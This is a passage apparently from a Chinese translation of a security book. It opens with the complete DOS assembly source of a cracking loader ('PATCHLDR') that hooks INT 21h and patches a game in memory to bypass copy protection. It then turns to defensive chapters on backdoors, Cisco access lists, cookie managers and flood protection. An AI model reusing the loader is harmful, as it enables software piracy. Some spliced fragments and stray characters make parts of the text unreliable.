PatchInt        proc far

        pushf           ;; SP+10

        cmp AH,Func2Use
        jne @@DoInt1

        jmp @@DoOurInt

@@DoInt1:
        jmp @@DoInt

@@DoOurInt:

        push AX         ;; SP+0E
        push BX         ;; SP+0C
        push CX         ;; SP+0A
        push DX         ;; SP+08
```

```
push SI                       ;; SP+06
push DI                       ;; SP+04
push DS                       ;; SP+02
push ES                       ;; SP+00
;; Get Segement:Offset of return address in to DS:DX

mov BX,SP
mov AX,word ptr SS:[BX+12h]   ;; Get offset from the stack
mov DX,word ptr SS:[BX+14h]   ;; Get segment from the stack

call AbsAddr                  ;; Convert to 20bit addr

mov BX,word ptr POffset       ;; CX:BX holds the offset to
mov CX,word ptr POffset+2     ;; add in

add AX,BX                     ;; Add the offset to the actual
adc DX,CX

call NormAddr                 ;; Normalize the address

mov DI,AX                     ;; ES:DI := DX:AX
mov ES,DX

;; Save new locations

mov word ptr PatchAt,DI
mov word ptr PatchAt+2,ES
mov AX,CS
mov DS,AX

;; Point DS:BX in to right direction

mov BX,offset ScanStr
sub CX,CX

;; Get length of scan string in to CX

mov CL,byte ptr [BX]
inc BX

@@ScanLoop:

mov AL,byte ptr CS:[BX]
inc BX
scasb
jne @@NotOurCall
dec CX
jnz @@ScanLoop

;; Ok, we can assume that it's our int we want to patch
;; off of, so make the patch.

;; Get parameters off of the stack

mov DI,word ptr PatchAt+2
mov ES,DI
```

```
mov DI,word ptr PatchAT

 mov AX,CS
     mov DS,AX
     mov SI,offset PatchStr    ;; patch

 ;; Get length of the data

 lodsb
 sub AH,AH
 mov CX,AX

 ;; Move the data

 rep movsb

@@NotOurCall:

                pop ES
                pop DS
                pop DI
                pop SI
                pop DX
                pop CX
                pop BX
                pop AX

 @@DoInt:

                popf
                jmp dword ptr OldPatchInt

 PatchInt     endp

;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;; ; InstallMe - This is program exec portion. It copies the command  ;;
;; ;                   line into it's buffer, then sets up the exec table,  ;;
;; ;                   grabs INT 21h and then executes the program to be   ;;
;; ;                   cracked. On return, it restores the system to normal! ;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
 InstallMe:

                mov AX,CS
                mov ES,AX
                mov DS,AX

 cli

         mov SS,AX
         mov AX,OFFSET StackTop
         mov SP,AX

         sti

         call FreeUpMemory
```


 call DoTitle
call SetupExecTable
call GrabInt
call ExecMark
call RestoreInt

mov AX,4C00h
int DosInt
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; FreeUpMemory - Frees up all unneeded memory for the EXEC function ;;
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
FreeUpMemory	proc

		mov BX,CS
		mov ES,BX
		mov BX,OFFSET EndOfProgram
		mov CL,4
		shr BX,CL
		inc BX

		mov AH,4Ah
		int DosInt

		jnc @@ReleaseOK

		mov DX,offset MemError.
		call ErrorControl

@@ReleaseOk:
		ret

FreeUpMemory	endp
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; DoTitle - Shows the title on the screen
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
DoTitle		proc

		push ds
		push ES

		mov AX,0003
		int 10h

		mov AX,CS
		mov DS,AX
		mov SI,offset Main

		mov AX,0B800h
		mov ES,AX
		mov DI,0

		mov CX,Main_Length

		call UnCrunch

		mov DH,0Ah
		mov DL,0
		mov BH,0
		mov AH,2
		int 10h

		mov AH,0
		int 16h

		pop ES
		pop DS
		ret

DoTitle	endp
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; SetupExecTable - This sets up the table needed to exec the mark
;;		      program!
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
```

```
SetupExecTable	proc

		mov BX,2Ch

		mov AX,[BX]
		mov ExecEnv,AX

		mov BX,80h
		mov word ptr ExecCmdLine,BX
		mov word ptr ExecCmdLine+2,CS

		mov BX,5Ch
		mov word ptr ExecFCB1,BX
		mov word ptr ExecFCB1+2,CS

		mov BX,6Ch
		mov word ptr ExecFCB2,BX
		mov word ptr ExecFCB2+2,CS

		ret

SetupExecTable	endp
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;;
;; GrabInt - This grabs the I-Vector for the patch int and replaces
;;	      it with ours.
;;
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
```

```
GrabInt		proc

		push ES

		mov AH,35h

		mov AL,PatchIntNo
		int DosInt
		jc @@IntError

		mov word ptr OldPatchInt,BX
		mov word ptr OldPatchInt+2,ES

		mov DX,offset PatchInt
		mov AH,25h
		mov AL,PatchIntNo
		int 21h
		jnc @@Done

@@IntError:

		mov DX,offset IntMsg
		call ErrorControl

@@Done:

		pop ES
		ret

GrabInt	endp
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
;; ExecMark - This execs the marked program!
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
ExecMark	proc

		;; First, save all registers on to the stack

		push AX
		push BX
		push CX
		push DX
		push SI
		push DI
		push DS
		push ES
		push BP

		;; Next, Setup for function call

		mov AX,CS
		mov DS,AX
		mov ES,AX
		mov BX,offset ExecTable ;; ES:BX points to exec table
		mov DX,offset ExecFilename ;; DS:DX points to filename
		mov AX,4800h

		;; Now, save the stack

		mov word ptr CS:OldSS,SS

		mov word ptr CS:OldSP,SP

		;; All is set, so exec

		int DosInt

		;; Save error code for later

		mov CS:ExecError,AX

		;; Restore the system

		mov AX,CS:OldSS
		mov SS,AX
		mov SP,CS:OldSP

		pop BP
		pop ES
		pop DS
		pop DI
		pop SI
		pop DX
		pop CX
		pop BX
		pop AX

		;; Test to see if an error has occured

		cmp ExecError,0
		je @@Done
		cmp ExecError,2
		je @@FileNotFound
		cmp ExecError,8
		je @@NotEnoughMem
		jmp @@Done

@@FileNotFound:
			mov DX,offset FNFExecMsg
			jmp @@ShowMsg

@@NotEnoughMem:
			mov DX,offset NEMExecMsg

@@ShowMsg:
			clc
			mov AH,9
			int DosInt

@@Done:
			ret

ExecMark	endp
```

```
;; RestoreInt  - Restores the interrupt
;;
RestoreInt	proc
		lds DX,OldPatchInt
		mov AH,25h
		mov AL,PatchIntNo
		int DosInt
		jnc @@Done

		mov DX,offset Int2Msg
		call ErrorControl

@@Done:
		ret

RestoreInt	endp
```

```
;; ErrorControl - Prints error msgs, then exits to dos with error code
;;
ErrorControl	proc

		mov AX,CS
		mov DS,AX
		mov AH,9
		int DosInt
		mov AX,4C01h
		int 21h

ErrorControl	endp
```

;; UNCRUNCH is the assembly code needed to uncompress a THEDRAW image.
;; The title screen was created w/ thedraw

```
UNCRUNCH PROC NEAR
;
;Parameters Required:
;  DS:SI  Crunched image source pointer.
;  ES:DI  Display address pointer.
;  CX     Length of crunched image source data.
;
	PUSH	SI			;Save registers.
	PUSH	DI
	PUSH	AX
	PUSH	BX
	PUSH	CX
	PUSH	DX
	JCXZ	Done

	MOV	DX,DI			;Save X coordinate for later.
	XOR	AX,AX			;Set Current attributes.

	CLD

LOOPA:	LODSB			;Get next character.
		CMP	AL,32			;If a control character, jump.
		JC	ForeGround
		STOSW				;Save letter on screen.
Next:	LOOP	LOOPA
		JMP	Short Done

ForeGround:
		CMP	AL,16			;If less than 16, then change the
		JNC	BackGround		;foreground color. Otherwise jump.
		AND	AH,0F0H			;Strip off old foreground.
		OR	AH,AL
		JMP	Next

BackGround:
		CMP	AL,24			;If less than 24, then change the
		JZ	NextLine		;backgound color. If exactly 24,
		JNC	FlashBitToggle		;then jump down to next line.
		SUB	AL,16				;Otherwise jump to multiple output
		ADD	AL,AL				;routines.
		ADD	AL,AL
		ADD	AL,AL
		AND	AH,8FH				;Strip off old background.
		OR	AH,AL
		JMP	Next

NextLine:	ADD	DX,160			;If equal to 24,
		MOV	DI,DX				;then jump down to
		JMP	Next				;the next line.

FlashBitToggle:
		CMP	AL,27				;Does user want to toggle the blink
		JC	MultiOutput			;attribute?
		JNZ	Next
		XOR	AH,128				;Done.
		JMP	Next

MultiOutput:
		CMP	AL,25				;Set Z flag if multi-space output.
		MOV	BX,CX				;Save main counter.
		LODSB					;Get count of number of times
		MOV	CL,AL				;to display character.
		MOV	AL,32
		JZ	StartOutput			;Jump here if displaying spaces.
		LODSB					;Otherwise get character to use.
		DEC	BX					;Adjust main counter.

StartOutput:
				XOR	CH,CH
				INC	CX
				REP	STOSW

		MOV	CX,BX
		DEC	CX ;Adjust main counter.
		LOOPNZ	LOOPA ;Loop if anything else to do...

Done:	POP	DX ;Restore registers.
		POP	CX
		POP	BX
		POP	AX
		POP	DI
		POP	SI
		RET

UNCRUNCH ENDP
```

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;

MAIN_LENGTH	EQU	266
MAIN	LABEL	BYTE
DB	9,16,'+',26,'M-+',24,'++',8,23,'_',15,26,'I__',9,16,'\''
DB	'|',24,'++',8,23,'_',4,'Program : ',1,'ACCOLADE''S H'
DB	'ardBall ]I[ ',25,4,4,'Date : ',1,'0'
DB	'5/05/1992 ',15,'_',1,16,'+',9,'|',24,'++',8,23,'_',26
DB	'I_',15,'_',1,16,'+',9,'|',24,'++',1,26,'K+',9,'|',24
DB	'+',26,'M+|',24,'++++',15,17,'THIS',9,16,'+',15,17,'I'
DB	'S',9,16,'+',15,17,'A',9,16,'+',15,17,'BUCKAROO',9,16
DB	'+',15,17,'BANZAI',9,16,'+',15,17,'LOADER',9,16,26,24
DB	'+',17,'PATCHLDR',16,'+',17,'VER',16,'+',17,'2',16,26
DB	3,'+|',24,'+',26,'M-+',24,25,26,14,'PRESS ANY KEY TO'
DB	' CONTINUE',24
```

```
MemError	db	'ERROR! Problem freeing up Memory for EXEC! Aborting!'
db	10,13,'$'

IntMsg		db	'ERRORović! A problems has occured while trying to attach '
db	'this patch! Aborting (NOTE! System may HANG!)'
db	10,13,'$'

Int2Msg		db	'ERROR! Could not return interrupt! Aborting '
db	'(NOTE! System may HANG!)',10,13,'$'

FNFExecMsg	db	'ERROR! Main program not FOUND!',10,13,'$'
NEMExecMsg	db	'ERROR! Not Enough Memory to run main program',10,13,'$'
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;
OurStack	db	127 dup(?)
StackTop	db	?
EndOfProgram	db	90
end	Begin
```

**老虎注** 本程序随本书附带的光盘中提供。

### 222 次黑客攻击被阻止

所以，正如你所看到的，这次会议确实展示了一些有趣的程序和硬件演示。但正如我后来发现的那样，这些演示只是诱饵。这次聚会的真正目的是招募人员组成所谓的"反老虎小队"，以实施新的黑客攻击。这一发现让我非常愤怒；我很难相信竟然真的有人在考虑加入这些"小队"。

……未完待续。


 ## 阶段
## 拒绝访问
### 二
## 入侵防御机制

有些地方，计算机犯罪已成为一种生活方式。在那里，你的社会保险号和信用卡号码被不动声色地匿名交易。在那里，即使防护最严密的计算机也容易遭到复杂的黑客攻击。这些地方共同构成了一个虚拟社区，一个其"居民"从事恶意黑客攻击与破解、软件盗版、电话系统飞客、信息嗅探、身份伪装、通信窃听和企业间谍等另类职业的社区。这个虚拟社区就是"地下世界"，许多攻击者称之为家的地方。

在本阶段中，我们将探讨以下问题：

- 你是否知道，你可能已经下载了某些恶意程序，它们会让最具威胁的病毒显得无害？
- 你是否知道，仅仅通过浏览互联网，无论你去哪里、做什么，几乎任何人都可以追踪你的行踪，同时收集你的个人信息？

这些程序旨在让远程攻击者能够秘密控制你的网络服务器或个人计算机。入侵者可以收集密码、访问账户（包括电子邮件）、修改文档、共享硬盘卷、记录按键、截取屏幕截图，甚至通过你计算机的麦克风监听对话。从较轻的方面来说，入侵者可以简单地利用信息漏洞，直接从你的网络浏览器收集数据。

很少有人意识到公司网络和家庭计算机中存在的常见威胁。很可能，黑客攻击已在不知不觉间发生——在你的社区，或许就在隔壁，甚至就在你的家中。关键是，你*可能*以为自己远离"地下世界"的威胁，但很可能并非如此……

## 互联网安全的五条黄金法则

虽然要做到完全免受黑客攻击是不可能的，但仍有办法防范大多数常见威胁。无论你是热衷于网站管理的站长，还是偶尔上网的冲浪者，遵循以下黄金法则都是个好主意，这将提高你获得安全网络体验的几率。

1. *使用个人防火墙。* 个人防火墙通常能够防范许多外来入侵。一些最受欢迎且经过验证的产品包括：BlackICE Defender、Norton Firewall 2001、McAfee Firewall、ZoneAlarm Pro，以及*Hack Attacks Revealed, Second Edition*中的TigerWatch。

2. *使用防病毒软件。* 使用Norton AntiVirus 2002、McAfee VirusScan 6.x或PC-cillin 3.0来保护你的系统，防范包含病毒和木马的下载文件及电子邮件附件。

3. *不要拿陌生人的糖果。* 使用良好的Cookie管理器捍卫你的隐私权，例如McAfee Internet Guard Dog。

4. *加密敏感数据。* 在未使用加密软件的情况下，绝对不要考虑传输敏感信息。其中最用户友好的产品之一是本书CD-ROM中的TigerCrypt。

5. *学会说"不！"* 你的个人信息与他人无关。*永远*不要透露密码、信用卡额度、家庭住址、出生日期，或驾照和社会保险号码等个人信息。

# 第4章
## 防范渗透攻击

简单的事实是，如果我们的系统要按照个人或公司的安全策略运行，总会有一些端口和服务在不同程度上可能容易受到黑客攻击。为了尽可能减少这些弱点并防范周边渗透，我们需要了解某些关键防护程序的细节，这些程序应成为每个安全基础的一部分。这就是本书这一阶段的重点。本书第一阶段讨论了可用于防范利用知名和隐藏端口及服务进行黑客攻击的具体"虎式"技术。在本阶段中，你将了解加强安全措施的具体步骤；这些步骤统称为*入侵防御机制*。本质上，这些是ingredients你可以用来防范各类渗透攻击的技术。

本章可以被视为对多种渗透黑客攻击的部分回应（包括以下目的发起的攻击：利用发现和站点扫描期间发现的漏洞；制造大规模破坏；获取管理员权限；突破并控制计算机、服务器和联网设备；以及利用潜在的安全漏洞，包括本地和远程漏洞）。本章将展示如何防范这类攻击。我们将详细介绍如何防范后门工具包、洪泛攻击、日志篡改、邮件轰炸、垃圾邮件、密码破解、嗅探、欺骗、病毒和网页篡改；我们将回顾商业防护措施、手动"虎式"技术和定制软件保护。我们还将详细研究一些常见的黑客攻击对策。到本阶段结束时，你应该对如何保护通往你的网络和个人计算机的本地和远程通信更有信心。

### 防范后门工具包

我们首先解决针对反复发作攻击的后门工具包方法。后门工具包是攻击者用来获取、保留和掩盖其系统访问痕迹的手段和方法。由于后门策略也可能被应用于特定安全系统中的缺陷，本节还将介绍可以建立的防御措施，以防范与当前已部署的安全网关架构直接相关的后门类型，这些架构可能包括防火墙、过滤器以及基础和增强型代理。

利用后门漏洞进行攻击可能是一项复杂的任务，因此需要仔细规划。在进行安全设计时，有三种常见的后门实施方案需要关注：虚拟连接控制、内部后门植入，以及内部/外部漏洞。

#### 虚拟连接控制

Telnet是对应知名端口23的服务，它在TCP/IP之上运行，作为登录会话的终端仿真器。一个经验性的安全规则是，只要可能，该服务应阻止潜在的远程访问；然而，通常该服务是本地管理所必需的。

第1章介绍了如何在Windows和*NIX系统中禁用和/或保护此服务。对于联网系统，你可以进行一些简单的配置修改来阻止远程telnet访问，同时允许本地授权。请查阅你的硬件操作手册以获取程序信息和更新。在本节中，我们将介绍两个常见的应用示例。

#### 示例1：Cisco接入产品过滤器

在图4.1所示的场景中，两个网络由访问过滤路由器分隔。中间的WAN链路可以象征任何通信介质，如租用线路、xDSL、ISDN/拨号等（WAN接口会相应反映：例如，如果使用DSL，则指示为Ethernet 1；如果为ISDN，则指示为BRI 0；等等）。远程网络也可以改为表示互联网、客户网络、供应商局域网等。鉴于此，请查看满足以下策略要求的硬件配置：

**图4.1** 带有访问过滤路由器的常见WAN场景。

- 本地用户可以访问远程网络上的所有服务。
- 远程用户被拒绝访问本地网络上的telnet/rlogin服务。
- 正在使用密码加密。

##### 本地配置

```
service password-encryption
no service snmp traplink-status
no service tcp-small-servers
no service udp-small-servers
!
hostname Local
!
enable password 7 password
!
ip source-route
no ip name-server
!
ip subnet-zero
no ip domain-lookup
ip routing
!
```

```
interface Ethernet 0
 no shutdown
 description connected to Ethernet LAN
 ip address 172.29.41.1 255.255.255.0
 ip access-group 100 in
 keepalive 10
!
interface Serial 0
 no shutdown
 description connected to Remote network
 ip address 172.29.42.1 255.255.255.252
 ip access-group 101 in
 encapsulation hdlc
!
! Access Control List 100
!
access-list 100 deny ip 172.29.42.0 0.0.0.3 any
access-list 100 deny ip 172.29.43.0 0.0.0.255 any
access-list 100 permit udp any eq rip any eq rip
access-list 100 permit tcp any any established
access-list 100 permit ip any 172.29.42.0 0.0.0.3
access-list 100 permit ip any 172.29.43.0 0.0.0.255
!
! Access Control List 101
!
access-list 101 deny ip 172.29.41.0 0.0.0.255 any
access-list 101 permit udp any eq rip any eq rip
access-list 101 permit tcp any any established
access-list 101 deny tcp any 172.29.41.0 0.0.0.255 eq 23
access-list 101 deny tcp any 172.29.41.0 0.0.0.255 eq 107
access-list 101 permit ip any 172.29.41.0 0.0.0.255
!
router rip
 version 2
 network 172.29.0.0
 no auto-summary
!
!
ip classless
no ip http server
snmp-server community local RO
no snmp-server location
no snmp-server contact
!
line console 0
 exec-timeout 0 0
 password 7 123
 login
!
line vty 0 4
```


 ```
password 7 password
login
```

##### 远程配置

```
service password-encryption
no service tcp-small-servers
no service udp-small-servers
!
hostname Remote
!
enable password password
!
no ip name-server
!
ip subnet-zero
no ip domain-lookup
ip routing
!
interface Ethernet 0
 no shutdown
 description connected to Ethernet LAN
 ip address 172.29.43.1 255.255.255.0
 keepalive 10
!
interface Serial 0
 no shutdown
 description connected to Local network
 ip address 172.29.42.2 255.255.255.252
 encapsulation hdlc
!
router rip
 version 2
 network 172.29.0.0
 no auto-summary
!
!
ip classless
no ip http server
snmp-server community remote RO
no snmp-server location
no snmp-server contact
!
line console 0
 exec-timeout 0 0
 password 123
 login
!
line vty 0 4
 password password
 login
```

#### 示例2：NetScreen防火墙

鉴于图4.1中的场景，本示例我们将在本地路由器和LAN之间添加一台NetScreen防火墙。该防火墙的主要目的是保护本地网络免受黑客攻击，不过就本示例而言，我们重点关注禁用来自外部的telnet访问。幸运的是，借助NetScreen的GUI配置界面，此修改简单直接且毫不费力。

从主界面开始，我们从左侧的系统菜单选项中选择"配置"。接着，在主框架顶部的接口标签页下，找到"不可信接口"选项，并取消选择telnet，如图4.2所示。

### 内部人员

内部后门植入非常普遍且极其危险。通常，受信任的用户、技术人员或被社会工程攻击的人员——比如对公司有个人恩怨的人，或与外部黑客勾结的人——会从内部网络安装该工具包。



**图4.2** 在NetScreen GUI上禁用telnet。

无需具备技术专业知识即可认识到，此类威胁需要结合数据中心锁定机制、摄像头以及要求进入系统访问时登记的修改日志簿的安全策略。每台服务器、路由器和/或防火墙都应包含活动日志，用于常规归档流程（包括监控录像）。包含标准日志机制的商用软件守护进程不仅应用于故障排除，还应在 Tiger Team 调查期间收集证据。最后，所有访客、外部顾问和供应商均应禁止访问，除非有授权人员陪同，并佩戴访客姓名标签。此外，您应经常监控用户账户；如果遭到渗透，应从稳定且安全的备份中恢复操作系统。**键盘记录器**（本章后面讨论）和端口监视器（参见第2章）也可用于监控未经授权的活动。最后，应使用第2章中提到的优秀木马扫描器来清除流氓后门程序。

### 内部/外部漏洞

无论网络是提供远离内部网络、位于非军事区（DMZ）的远程服务，还是通过防火墙的安全通道（连接到内部LAN），某些服务仍可能容易受到后门实施的影响。通常，这是在初步入侵成功后的可能结果。

经验表明，许多安全策略并不充分，这意味着攻击者至少可以造成缓冲区溢出或端口泛洪。为了防止此处提到的此类初始黑客攻击，我将精确的 Tiger Team 技术简化为一系列步骤。按照剩余章节中的说明作为必需的锁定策略来执行非常重要。事实上，将本书中每个阶段的每一步都作为必需的锁定程序来执行同样重要。

### 防御Cookie

在浏览互联网时，请注意无论您去哪里、做什么，几乎任何人都可以跟踪您的活动，同时收集关于您的个人信息。这种关键的信息泄露可能会被**cookie**利用，cookie是一种小型程序，直接从Web浏览器收集数据。Newsbytes的一位来源发布了以下摘自题为《几乎没有人拒绝Cookie》的文章的摘录：

一项新的研究发现，在1000名互联网冲浪者中，只有大约7人拒绝cookie，这些是网站存储在PC上以记录用户偏好和跟踪其活动的小数据文件。如此低的拒绝率是否意味着将浏览器设置为禁用cookie太过困难，或者说99.3%的互联网用户并不关心他们的个人信息正在全球范围内被传播？

虽然可以通过修改浏览器安全设置来禁用这些cookie，但这不仅是一种极端措施，而且可能也不尽人意，因为合法网站试图通过记住我们的姓名、推荐产品和跟踪我们的账户来个性化我们的访问。作为替代方案，让我们讨论*cookie管理器*。

Cookie管理器是在后台监控和拦截未经请求的cookie通信的实用工具。在浏览网页时，当某个网站尝试使用cookie来收集人口统计信息、跟踪使用情况或收集个人数据时，强大的cookie管理器会拦截这些cookie并提示我们下一步操作。此外，良好的cookie管理器还会拦截试图从我们的计算机访问互联网的本地程序。某些防火墙也提供cookie管理功能。

如果您没有来自防火墙设备的任何cookie保护，为了进一步保护您的隐私，请务必部署一款优秀的cookie管理器，尤其是具有删除现有cookie功能的产品。最佳解决方案包括以下任何一款专用cookie管理器：

- *McAfee Internet Guard Dog 3.0* (www.mcafee-at-home.com)
- *Limit Software Cookie Crusher 2.6* (www.thelimitsoft.com)
- *Kookaburra Software Cookie Pal* (www.kburra.com)
- *Idcide Privacy Companion* (www.idcide.com)

### 防御泛洪攻击

骚扰的常见变体以泛洪的形式出现，包括TCP、UDP和ICMP技术，以及知名端口和网络泛洪。攻击者可以造成严重的拥塞，在某些情况下甚至导致服务拒绝，使易受攻击的系统瘫痪。整个网络都曾因广播泛洪而陷入虚拟瘫痪。作为回应，本节将针对这些常见威胁的防御措施进行说明，涉及服务器、工作站和互联网络硬件。我们将从调查工作站泛洪防御开始，逐步深入到服务器，最后到互联网络设备。

除非您拥有专有的网络接口卡（NIC）和/或虚拟守护进程，否则您可能无法选择手动配置来防御TCP、UDP和ICMP泛洪，在这种情况下，建议获取保护性软件——工作站防火墙守护进程或实用工具，如Norton Internet Security或BlackICE Defender（本书第三阶段将介绍多种采用防御泛洪技术的软件包）。作为工作站防御的示例，请注意图4.3中BlackICE如何配置为针对特定级别的未经请求流量提供保护。



**图4.3** 使用BlackICE配置防御未经请求的流量。

通常，此实用程序在保护级别运行时，将自动保护各个工作站免受泛洪攻击。该程序还将持续记录此活动。图4.4展示了ICMP泛洪检测和保护，并提供了将黑客添加到阻止地址策略列表的选项。

相同类型的实用工具也可以获取并用于单个服务器的保护。尽管如此，我们仍将回顾针对服务器所提供服务的最常见攻击方法。

> **Tiger提示** 一个好的经验法则是紧跟操作系统和服务包更新的最新状态。供应商持续努力控制这种黑客攻击的新变体。此外，屏蔽知名端口服务，如echo、chargen和telnet，并阻止ICMP echo请求，以消除许多常见的远程泛洪攻击。

在Windows系统上，要使这些服务失效，必须从"开始/运行"命令提示符运行regedit.exe来编辑系统注册表。
```

图 4.4 ICMP 泛洪检测与防护。

接下来，查找这些服务条目并将其值更改为 "false" 或零。完成后，重新启动系统并验证您的修改。要在 *NIX 中禁用这些服务，只需编辑 /etc/inetd.conf 文件，将相应的服务条目注释掉。然后，重新启动整个系统或仅重启 inetd 进程。（有关这两种操作的更多细节，请参阅第 1 章。如果您不确定或不愿进行这些修改，请参阅附录 A 了解自定义安全软件或 "SafetyWare" 的详细信息。TigerWatch 让您能够主动监控系统端口和服务并进行锁定，而无需干预注册表或手动禁用服务。）

对于那些根据个人或公司运营策略需要使用该服务的情况，您可以在 *NIX 中对服务进行包装，或者在许多 Windows 和 *NIX 守护进程中限制连接流。通过限制端口查询响应，您可以消除会话泛洪，因为服务器只会为数量特别安全的开放会话占用资源（如图 4.5 所示）。此程序特别建议用于 telnet、FTP 和 HTTP 等守护进程。此外，不要忘记禁用服务横幅；并考虑通过 IP 地址或加密认证来审批可用会话。

如今，网络硬件供应商提供先进的安全模块或升级程序来防范泛洪攻击。也就是说，在购买之前，请向供应商咨询稳定版、非试点版或早期发布版本，再进行升级。供应商开发人员一直在编译更新的变体，带有更简单的操作前端和/或更少晦涩的命令行程序。作为一个常见的例子，启用了防火墙功能的 Cisco 路由器支持以下高级安全自定义设置：

**全局计时器值。** 这些选项决定了在丢弃连接之前，各种连接状态允许经过的时间。

**图 4.5** 限制服务会话查询。

- **TCP 连接超时。** 等待 TCP 连接建立的时间，超时则丢弃连接。

- **TCP FIN 等待超时。** 等待关闭 TCP 连接的时间，超时则丢弃连接。

- **TCP 空闲超时。** TCP 连接无活动的时间，超时则丢弃连接。

- **UDP 空闲超时。** UDP 连接无活动的时间，超时则丢弃连接。

- **DNS 超时。** 尝试连接 DNS 服务器的允许时间，超时则尝试失败。

**DoS 攻击阈值。** 这些选项限制了半开 DoS 会话的数量。异常大量的半开 DoS 会话，无论是总数还是按到达率计算，都可能表明正在发生 DoS 攻击。此组中的高阈值表示一个触发删除半开会话的数量。这种删除会话的操作会持续进行，直到达到适当的低阈值数量。

- **一分钟低阈值。** 过去一分钟内的半开 DoS 会话数量，达到此值则停止删除 DoS 会话。

- **一分钟高阈值。** 过去一分钟内的半开 DoS 会话数量，达到此值则开始删除 DoS 会话。

- **最大不完整会话低阈值。** 半开 DoS 会话的总数，达到此值则停止删除 DoS 会话。

- **最大不完整会话高阈值。** 半开 DoS 会话的总数，达到此值则开始删除 DoS 会话。

**每台主机的 TCP 最大不完整会话数。** 指定在采取某些措施之前，每个主机可以打开的最大会话数。采取的措施取决于阻塞时间值。

**阻塞时间。** 如果启用了阻塞时间，当达到 TCP 最大不完整会话数值时，路由器将不会再接受任何新会话，直到此选项中指定的时间过期。如果禁用了阻塞时间，每个新会话都会导致最旧的会话关闭。

结合图 4.1 中给出的场景，在启用防火墙的情况下，高级安全自定义将以以下方式修改本地路由器的运行配置：

```
service password-encryption
no service tcp-small-servers
no service udp-small-servers
!
hostname Local
!
enable password 7 password
!
ip source-route
no ip name-server
!
ip subnet-zero
no ip domain-lookup
ip routing
!
! Context-Based Access Control
!
ip inspect tcp synwait-time 30
ip inspect tcp finwait-time 5
ip inspect tcp idle-time 3600
ip inspect udp idle-time 30
ip inspect dns-timeout 5
ip inspect one-minute low 900
ip inspect one-minute high 1100
ip inspect max-incomplete low 900
ip inspect max-incomplete high 1100
ip inspect tcp max-incomplete host 50 block-time 2
!
! IP inspect Ethernet_0
!
ip inspect name Ethernet_0 tcp
ip inspect name Ethernet_0 udp
ip inspect name Ethernet_0 cuseeme
ip inspect name Ethernet_0 ftp
ip inspect name Ethernet_0 h323
ip inspect name Ethernet_0 rcmd
ip inspect name Ethernet_0 realaudio
ip inspect name Ethernet_0 smtp
ip inspect name Ethernet_0 streamworks
ip inspect name Ethernet_0 vdolive
ip inspect name Ethernet_0 sqlnet
ip inspect name Ethernet_0 tftp
!
! IP inspect Serial_0
